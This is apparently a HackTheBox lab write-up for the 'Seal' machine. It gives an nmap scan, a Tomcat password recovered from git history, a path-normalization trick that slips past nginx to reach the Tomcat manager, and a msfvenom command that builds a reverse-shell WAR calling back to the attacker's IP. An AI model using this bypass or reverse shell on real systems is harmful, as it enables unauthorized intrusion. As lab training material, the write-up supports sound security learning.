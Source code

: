 ```yaml
---
title: Seal HackTheBox
published: true
tags: htb tomcat path normalization msfvenom git history GitBucket
---
```


## Recon

```bash
nmap -sC -sV -Ao nmap 10.10.10.250
```

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 08:33 CEST
Nmap scan report for 10.10.10.250
Host is up (0.023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node01j0kvq70qbpqj11e6pkvdnh6s32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:56 GMT
|     Set-Cookie: JSESSIONID=node05fxtqecve3hh15vos2gljmegx0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4:
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5:
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=9/2%Time=6311A3A4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Fri,\x2002\x20
SF:Sep\x202022\x2006:32:56\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node05fxtqe
SF:cve3hh15vos2gljmegx0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,
SF:\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,106,"HTTP
SF:/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x2
SF:0GMT\r\nSet-Cookie:\x20JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1\.node0;
SF:\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:
SF:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x20G
SF:ET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,AD
SF:,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/html;
SF:charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n
SF:\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version</p
SF:re>")%r(FourOhFourRequest,F5,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:
SF:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x20GMT\r\nSet-Cookie:\x20JSES
SF:SIONID=node01j0kvq70qbpqj11e6pkvdnh6s32\.node0;\x20Path=/;\x20HttpOnly\
SF:r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-
SF:Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(So
SF:cks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConten
SF:t-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCon
SF:nection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20
SF:Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400\
SF:x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;chars
SF:et=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<
SF:h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CN
SF:TL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\
SF:x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nConte
SF:nt-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x204
SF:00</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

## Interpretation

There are three open ports: 22, 443 and 8080.

## Port 443

The website on port 433 seems to be not vulnerable. 
There are two input possibilities but basic xss, sqli testing reveals nothing interesting. 

## Port 8080

The application on port 8080 is GitBucket. Basic or default credentials are not wirking to login so creating a new account seems to be the way to go. We have access to two repositories. In the tomcat folder in the `tomcat-users.xml` there is no user entry but the git history reveals a deleted tomcat user with the credentials: `tomcat:42MrHBf*z8{Z%`. This password can be reused for the GitBucket service as user luis but this had no further impact. More looking around reveals that there is a nginx reverse proxy running which blocks requests to for example `/manager/html`

## Path traversal

This combination of tomcat and nginx is most often vulnerable to a path traversal attack as explained [here](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf). `10.10.10.250/manager;name=dennis/html/` did the trick because `/manager;name=dennis/html` doesn't match the pattern `/manager/html` checked by nginx so it forwards the request to the tomcat. The application server normalizes the reqest and throws the `;name=dennis`-part away so tomcat sees only `/manager/html`. For the managersite the previous found credentials are working so we have access to the admin panel. 

## Exploit

Creating an exploit which we can upload to the tomcat. 

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.4 lport=4242 -f war -o rev.war7
```

Upload the war-File to the adminpanel and deploy it to the tomcat. 

### Notes to deploying to tomcat

1. Logically the request have to be intercepted with burpsuite because the deploy-Button has links to `/manager/html/upload...` which is blocked by nginx. So the path traversal should again be applied.
2. I had to add the host name to my `/etc/hosts`-file but I don't know why.




    
